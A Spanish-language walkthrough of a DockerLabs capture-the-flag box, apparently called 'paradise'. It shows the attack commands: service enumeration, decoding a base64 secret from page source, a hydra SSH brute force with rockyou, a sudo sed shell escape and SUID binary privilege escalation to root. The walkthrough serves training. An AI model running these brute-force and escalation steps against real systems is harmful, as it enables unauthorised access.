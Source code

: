nmap: 445,80,22,139

![image](https://github.com/user-attachments/assets/3bb1be68-7619-4523-bc23-f1de1268799c)

---
hacemos un: enum4linux -a 172.17.0.2

![image](https://github.com/user-attachments/assets/b905716e-26f1-4f9f-bed5-cdb04ce17655)

Nos da dos nombres: andy y lucas

en el código fuente de la pagina de "Andy's house" hay una contraseña en base64: 

![image](https://github.com/user-attachments/assets/3c9ed1dd-f426-494a-acb2-052b168ccc2b)

> ZXN0b2VzdW5zZWNyZXRvCg==

Usamos: https://www.base64decode.org/es/

    nos da: estoesunsecreto

es un parámetro, así que dejamos la URL de la siguiente forma.

> http://172.17.0.2/estoesunsecreto/mensaje_para_lucas.txt

![image](https://github.com/user-attachments/assets/83682ff4-5a74-4c3f-8049-90d8167b687b)

Lanzamos un ataque de fuerza bruta ya que nos indican que la contraseña es débil:

> hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

![image](https://github.com/user-attachments/assets/19976a30-0ace-4715-8afc-29c6b38cc370)

nos da la contraseña de lucas: chocolate

entramos en el ssh con el usuario y contraseña encontrado

![image](https://github.com/user-attachments/assets/52347385-e729-4072-83d2-698c1e2afc24)

utilizamos sudo -l

se escala con sed y lo buscamos en: https://gtfobins.github.io/gtfobins/sed/

colocamos el comando que nos dio y lo modificamos al principio: 

>sudo - u andy sed -n '1e exec sh 1>&0' /etc/hosts

![[dockerlabs/facil/paradise/test7.png]]


ahora buscamos como escalar, y buscando entre carpetas con el comando: 
> find / -perm -4000 -ls 2> /dev/null

Nos da dos ejecutables en " /usr/local/bin ", así que vamos a la ruta que nos muestra.

hay un "privileged_exec"
lo ejecutamos ya que tiene permisos de ejecución con Andy

> ./privileged_exec

![[dockerlabs/facil/paradise/test8.png]]
y somos root!
